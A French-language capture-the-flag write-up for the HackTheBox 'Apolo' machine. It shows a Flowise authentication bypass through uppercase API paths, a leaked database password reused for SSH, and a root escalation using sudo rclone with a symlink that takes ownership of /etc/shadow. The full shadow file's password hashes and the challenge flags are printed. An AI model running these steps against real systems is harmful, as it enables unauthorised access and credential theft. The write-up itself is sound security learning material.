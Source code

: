 ```yaml
---
title: HTB University CTF 2024 Binary Badlands - Apolo
date: 2024-12-13
tags: 
- web
- privesc
category: 
- ctf
- fullpwn
---
```


# Découverte du challenge

Sur l'ip, nmap retourne deux services: ssh et http.

On trouve un site web: http://apolo.htb/
En creusent un peu, on tombe sur un sous domaine : ai.apolo.htb

Ce sous domain héberge une instance de "Flowise AI". 
En cherchant sur interne, on tombe sur une vulnérabiltié permettant de bypasser le système d'authentification 

# Bypasser l'authentification (CVE-2024-31621) 

https://www.exploit-db.com/exploits/52001
```
The flowise version <= 1.6.5 is vulnerable to authentication bypass
vulnerability.
The code snippet

this.app.use((req, res, next) => {
>                 if (req.url.includes('/api/v1/')) {
>                     whitelistURLs.some((url) => req.url.includes(url)) ?
> next() : basicAuthMiddleware(req, res, next)
>                 } else next()
>             })


puts authentication middleware for all the endpoints with path /api/v1
except a few whitelisted endpoints. But the code does check for the case
sensitivity hence only checks for lowercase /api/v1 . Anyone modifying the
endpoints to uppercase like /API/V1 can bypass the authentication.
```

En utilisant cette vulnérabilité, on peut se connecter sur l'instance.
Dans la partie "Credentials", on retrouve les identifiants utilisée pour se connecter à la base de donnée du serveur. 

```
mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority
```
On essaie de se connecter à la machine via ssh sur l'utilisateur lewis et le mot de passe C0mpl3xi3Ty!_W1n3, et ça passe! 

# Privilege escalation (CVE-2024-52522)
En listant les doits de l'utilisateur lewis, on peut voir que : 
```
$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```
On peut utiliser la commande /usr/bin/rclone en tant qu'utilisateur.

Ce programme importe une vulnérabilité modifiant permettant d'avoir une lecture arbitraire sur le fichier/répertoire de notre choix.

Typiquement, voici un test pour vérifier que la vuln fonctionne : 
```
lewis@apolo:~$ ln -s /etc/shadow /home/lewis/shadow
lewis@apolo:~$ sudo rclone copy /home/lewis/ /tmp/home_new --links --metadata --log-level=DEBUG
lewis@apolo:~$ ls -la /etc/shadow
-rwxrwxrwx 1 lewis lewis 1214 Dec  4 13:10 /etc/shadow
```

On peut voir que le fichier /etc/shadow appartient maintenant à notre utilisateur ! 
Ce qui nous permet de lire le fichier
```
lewis@apolo:~$ cat /etc/shadow
root:$6$tXGOWajYaarOSaBl$3ERntPuO48c8RpGIPf/qrfLqezppfW/t0wqRTpzjmaBLYLVWBj.TrLkgJdVKdQeh2cjoBwQ6dVU98ckLQgCCG0:20024:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
sshd:*:18389:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18822:0:99999:7:::
lewis:$6$BtGmTbbtNVkg/W2N$nLwk34e22.8xnscxEV2IfL0SD1xvuwWaVlAaQBGOWk2cGA9dfUpzXhONLr5wu8mGuzRX2ZEPm1NFuPeni4K9r1:20024:0:99999:7:::
fwupd-refresh:*:20041:0:99999:7:::
_laurel:!:20061::::::
``` 

De la même manière, on peut faire un lien symbolique avec /root pour obtenir les droits sur ce répertoire

# Résultat
```
lewis@apolo:~$ cat /root/root.txt 
HTB{cl0n3_rc3_f1l3}
lewis@apolo:~$ cat user.txt 
HTB{llm_ex9l01t_4_RC3}
```

